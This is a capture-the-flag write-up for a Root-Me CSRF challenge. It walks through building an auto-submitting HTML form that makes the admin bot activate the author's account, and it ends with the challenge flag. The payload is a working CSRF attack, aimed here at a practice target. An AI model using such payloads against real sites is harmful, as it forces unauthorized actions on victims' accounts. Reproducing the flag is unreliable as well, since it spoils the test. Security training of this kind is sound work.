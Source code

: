 # CSRF - 0 protection

**Point**: 35 Points 

## Solution:

This is a basic CSRF vulnerability. Get in the page, we see a form: 

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159601753-f08b4ef7-75f1-43b3-8b28-3b0c8e0a5aea.png" ></p>

Before "Login", we have to register. Move to "Register" and create an account. For example, in my case, username is `khangtictoc` and password is `123`

Log in this account. Move to "Private" 

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159602721-0d988354-cb0f-43bd-ba64-49e8a20feea5.png" ></p>


This section is for activated account. So we could reach that via sending a malicious HTML content to "Contact". 

But how do we achieve this action ? In "Profile", there's a **disable** checkbox and a button "Submit". 

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159603119-dc64359d-bb4e-4fb7-bfbd-0114c02b2d94.png" ></p>

Enable the checkbox, in "Dev Tool" (F12) replace `disabled=""` with `checked`. Then click "Submit" button.

```html
<input type="checkbox" name="status" checked>
```

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159604050-ebe23dce-fbd6-4f24-9377-006d78f291fb.png" ></p>

Only **admin** can do this action. Move to "Network" section, examine **Request Headers**:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159605145-6f1167f6-4b58-4b74-bac5-cba9448f3a1f.png" ></p>

This meet requirements for CSRF:
- Only **cookie** use to identify user
- **Origin** and **Referer**. (This can prevent CSRF if server checks it, but this chall does not use)

We could make **administrator** do the activation for us. Constructing a auto-submit form. Copy the given form:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159605827-cfb26c6c-f62d-4864-a8d2-a7010b0ee6ee.png" ></p>

Changing `checkbox` as we've done previous. Create payload: 
- Make sure value in **input/type=text** is our **username** 
- Set an `id=form` for easy **querySelector**, there's 1 form so we can confidently name any id  
- Set `action` to "http://challenge01.root-me.org/web-client/ch22/?action=profile" for fixed path, we can "POST" data no matters the place(domain) we are
- Add **javascript code** for auto-submit.
- Put the payload in full **HTML format**. The payload 's contained in `<html></html>` and in `<body></body>`

Your email: khangtictoc@gmail.com (arbitrary string) <br>
Comment:

```html
<html>
  <body>
      <form action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="post" id="form" enctype="multipart/form-data">
		    <div class="form-group">
		    <label>Username:</label>
		    <input type="text" name="username" value="khangtictoc">
		    </div>
		    <br>		
		    <div class="form-group">
		    <label>Status:</label>
		    <input type="checkbox" name="status" checked>
		    </div>
		    <br>	
        <button type="submit">Submit</button>
	    </form>
    <script>document.getElementById("form").submit(); </script>
    <body>
</html>
```

Wait for a while for autbot's working. Direct to "Private" section:

<p align="center"><img src="https://user-images.githubusercontent.com/48288606/159609361-00cc5132-5e08-4e9b-a98d-3f58e733f6ea.png" ></p>

Flag: **Csrf_Fr33style-L3v3l1!**
